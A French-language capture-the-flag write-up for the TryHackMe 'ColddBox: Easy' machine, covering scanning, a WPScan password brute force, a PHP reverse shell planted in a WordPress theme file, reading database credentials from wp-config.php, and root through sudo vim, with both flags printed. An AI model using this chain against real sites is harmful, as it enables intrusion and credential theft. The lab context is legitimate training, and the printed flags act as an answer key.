

# ColddBox: Easy #

## Task 1 boot2Root ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.14.209 colddbox.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A colddbox.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-11 14:23 CEST
Nmap scan report for colddbox.thm (10.10.14.209)
Host is up (0.032s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/11%OT=80%CT=1%CU=40714%PV=Y%DS=2%DC=T%G=Y%TM=6113C1A
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   30.83 ms 10.9.0.1
2   31.02 ms colddbox.thm (10.10.14.209)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.19 seconds

```

D'après notre scan de nmap on voit 2 services : 
Le service HTTP sur le port 80.   
Le service SSH sur le port 4512.    


On voit que le site fonctionne sur le cms wordpress.   

```bash
===============================================================
2021/08/11 14:52:46 Finished
===============================================================
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://colddbox.thm/ -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/hidden               (Status: 301) [Size: 313] [--> http://colddbox.thm/hidden/]
/index.php            (Status: 301) [Size: 0] [--> http://colddbox.thm/]         
/server-status        (Status: 403) [Size: 277]                                  
/wp-admin             (Status: 301) [Size: 315] [--> http://colddbox.thm/wp-admin/]
/wp-content           (Status: 301) [Size: 317] [--> http://colddbox.thm/wp-content/]
/wp-includes          (Status: 301) [Size: 318] [--> http://colddbox.thm/wp-includes/]
/xmlrpc.php           (Status: 200) [Size: 42]                                  
```

Avec gobuster on remarque un répertoire caché  du nom \/hidden.   


Avec le nouveau répertoire découvert on trouve un nouveau message.   
Le nom C0ldd va nous servir.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wpscan --url colddbox.thm  -U C0ldd -P /usr/share/wordlists/rockyou.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://colddbox.thm/ [10.10.14.209]
[+] Started: Wed Aug 11 15:00:08 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://colddbox.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://colddbox.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://colddbox.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.1.31 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://colddbox.thm/?feed=rss2, <generator>https://wordpress.org/?v=4.1.31</generator>
 |  - http://colddbox.thm/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.1.31</generator>

[+] WordPress theme in use: twentyfifteen
 | Location: http://colddbox.thm/wp-content/themes/twentyfifteen/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://colddbox.thm/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.0
 | Style URL: http://colddbox.thm/wp-content/themes/twentyfifteen/style.css?ver=4.1.31
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://colddbox.thm/wp-content/themes/twentyfifteen/style.css?ver=4.1.31, Match: 'Version: 1.0'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <===============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - C0ldd / 9876543210                                                                                                                                                                                                                
Trying C0ldd / franklin Time: 00:00:26 <                                                                                                                                                             > (1225 / 14345617)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: C0ldd, Password: 9876543210

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Aug 11 15:00:41 2021
[+] Requests Done: 1397
[+] Cached Requests: 5
[+] Data Sent: 448.548 KB
[+] Data Received: 4.731 MB
[+] Memory used: 245.934 MB
[+] Elapsed time: 00:00:32
```

On force brute le login du site.
On trouve les identifiants :
Nom : C0ldd    
Mot de passe : 9876543210    


Avec les identifiants on se connect.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget  https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-08-11 15:51:02 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]

tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php
```

On prépare le reverse shell php.


On le copie dans l'apperance dans le fichier 404.php

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour avoir le shell distant.   



On exécute le shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.14.209] 33700
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:58:13 up  1:37,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /var/www
$ ls
html
$ cd html
$ ls
hidden
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php

$ cat wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link http://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define('AUTH_KEY',         'o[eR&,8+wPcLpZaE<ftDw!{,@U:p]_hc5L44E]Q/wgW,M==DB$dUdl_K1,XL/+4{');
define('SECURE_AUTH_KEY',  'utpu7}u9|FEi+3`RXVI+eam@@vV8c8x-ZdJ-e,mD<6L6FK)2GS }^:6[3*sN1f+2');
define('LOGGED_IN_KEY',    '9y<{{<I-m4$q-`4U5k|zUk/O}HX dPj~Q)<>#7yl+z#rU60L|Nm-&5uPPB(;^Za+');
define('NONCE_KEY',        'ZpGm$3g}3+qQU_i0E<MX_&;B_3-!Z=/:bqy$&[&7u^sjS!O:Yw;D.|$F9S4(&@M?');
define('AUTH_SALT',        'rk&S:6Wls0|nqYoCBEJls`FY(NhbeZ73&|1i&Zach?nbqCm|CgR0mmt&=gOjM[.|');
define('SECURE_AUTH_SALT', 'X:-ta$lAW|mQA+,)/0rW|3iuptU}v0fj[L^H6v|gFu}qHf4euH9|Y]:OnP|pC/~e');
define('LOGGED_IN_SALT',   'B9%hQAayJt:RVe+3yfx/H+:gF/#&.+`Q0c{y~xn?:a|sX5p(QV5si-,yBp|FEEPG');
define('NONCE_SALT',       '3/,|<&-`H)yC6U[oy{`9O7k)q4hj8x/)Qu_5D/JQ$-)r^~8l$CNTHz^i]HN-%w-g');

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each a unique
 * prefix. Only numbers, letters, and underscores please!
 */
$table_prefix  = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 */
define('WP_DEBUG', false);

/* That's all, stop editing! Happy blogging. */

/** Absolute path to the WordPress directory. */
if ( !defined('ABSPATH') )
	define('ABSPATH', dirname(__FILE__) . '/');

define('WP_HOME', '/');
define('WP_SITEURL', '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');


```

Dans le fichier wp-config.php ou trouve des identifiants :
nom : c0ldd   
mot de passe : cybersecurity   

**user.txt**

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/var/www/html$ 

su c0ldd
Password: cybersecurity

c0ldd@ColddBox-Easy:/var/www/html$ cat /home/c0ldd/user.txt
cat /home/c0ldd/user.txt
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

```

On stabilise le shell.   
On s'identifie comme utilisateur c0ldd avec le mot passe trouvé.   
On lit le flag qui est dans user.txt.    

La réponse est : RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==    

**root.txt**

```bash
c0ldd@ColddBox-Easy:/var/www/html$ sudo -l
sudo -l
[sudo] password for c0ldd: cybersecurity

Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp

```

On voit que sudo est configurer pour exécuter vim chmod et ftp sans mot de passe avec les droits root.   

```bash
c0ldd@ColddBox-Easy:/var/www/html$ sudo /usr/bin/vim /root/root.txt
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

Avec vim on peut lire le fichier root.txt      

La réponse est : wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=    